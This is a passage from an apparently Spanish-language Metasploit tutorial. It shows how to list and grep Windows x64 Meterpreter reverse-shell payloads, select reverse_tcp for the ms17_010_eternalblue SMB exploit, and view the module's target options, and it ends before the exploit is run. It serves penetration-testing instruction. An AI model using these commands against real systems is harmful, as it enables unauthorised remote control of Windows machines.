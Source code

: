```bash
   523  windows/x64/meterpreter/reverse_named_pipe                        manual  No    Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse Named Pipe (SMB) Stager
   524  windows/x64/meterpreter/reverse_tcp                               manual  No    Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   525  windows/x64/meterpreter/reverse_tcp_rc4                           manual  No    Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   526  windows/x64/meterpreter/reverse_tcp_uuid                          manual  No    Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
   527  windows/x64/meterpreter/reverse_winhttp                           manual  No    Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (winhttp)
   528  windows/x64/meterpreter/reverse_winhttps                          manual  No    Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTPS Stager (winhttp)
```

### Filtrando Cargas Útiles con grep

Puede ser un proceso largo buscar el payload adecuado entre una lista tan extensa. Para acelerar la búsqueda, podemos utilizar el comando `grep` en **msfconsole** y filtrar términos específicos.

Por ejemplo, si queremos una **reverse shell** basada en **TCP** manejada por **Meterpreter**, podemos buscar todos los resultados que contengan la palabra **Meterpreter**.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter show payloads
```

Esto nos devuelve 14 resultados. Ahora podemos añadir otro comando `grep` para buscar solo aquellos que contengan `reverse_tcp`.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
```

## Selección del Payload

Para seleccionar el **payload** deseado, utilizamos el comando `set payload <número>`.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp
```

Después de seleccionar el **payload**, aparecerán más opciones disponibles para configurar, como `LHOST` y `LPORT`, que son la dirección y puerto de escucha para inicializar la conexión reversa.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------  
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
```